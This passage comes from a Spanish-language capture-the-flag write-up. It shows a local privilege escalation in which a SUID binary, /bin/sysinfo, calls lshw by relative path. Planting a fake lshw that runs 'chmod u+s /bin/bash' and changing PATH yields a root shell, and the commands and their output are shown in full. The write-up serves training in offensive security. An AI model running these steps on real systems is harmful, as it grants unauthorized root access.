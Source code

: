 
Ahora vamos a analizar el binario, cuando lo ejecuto.....
```console
theseus@ubuntu:/dev/shm$ /bin/sysinfo                                                                                                                                                            
====================Hardware Info====================                                                                                                                                            
H/W path           Device      Class      Description                                                                                                                                            
=====================================================                                                                                                                                            
                               system     VMware Virtual Platform                                                                                                                                
/0                             bus        440BX Desktop Reference Platform                                                                                                                       
/0/0                           memory     86KiB BIOS                                                                                                                                             
/0/1                           processor  AMD EPYC 7401P 24-Core Processor                                                                                                                       
/0/1/0                         memory     16KiB L1 cache                                                                                                                                         
/0/1/1                         memory     16KiB L1 cache                                                                                                                                         
/0/1/2                         memory     512KiB L2 cache                                                                                                                                        
/0/1/3                         memory     512KiB L2 cache                                                                                                                                        
/0/2                           processor  AMD EPYC 7401P 24-Core Processor 
```
Podemos observar que la función del binario es ejecutar comandos para mostrar información del hardware de la máquina y uno de los comandos que identifique fácilmente es  `lshw`. por lo que usaremos ese para escalar a root.

## Shell como root.

Lo que haremos será lo siguiente:

* Nos dirigimos a `/dev/shm` y crearemos un archivo con el mismo nombre.
* Dentro de este escribimos el comando `chmod u+s /bin/bash` par agregar un bit SUID a la /bin/bash.
* Le asignamos permisos de ejecución.
* Modificamos la variable de entorno PATH para que busque el archivo en `/dev/shm` .
* Por último ejecutamos el `/bin/sysinfo`.

Lo que resultara que nosotros podamos ejecutar una bash como el usuario root.

```console
theseus@ubuntu:/dev/shm$ cat lshw
#!/bin/bash
chmod u+s /bin/bash
theseus@ubuntu:/dev/shm$ chmod +x lshw
theseus@ubuntu:/dev/shm$ export PATH=/dev/shm:$PATH
theseus@ubuntu:/dev/shm$ /bin/sysinfo
theseus@ubuntu:/dev/shm$ /bin/bash -p
bash-4.4# id
uid=1000(theseus) gid=1000(theseus) euid=0(root) groups=1000(theseus),100(users)
bash-4.4# whoami
root
```
**¡¡Somos Root!!**
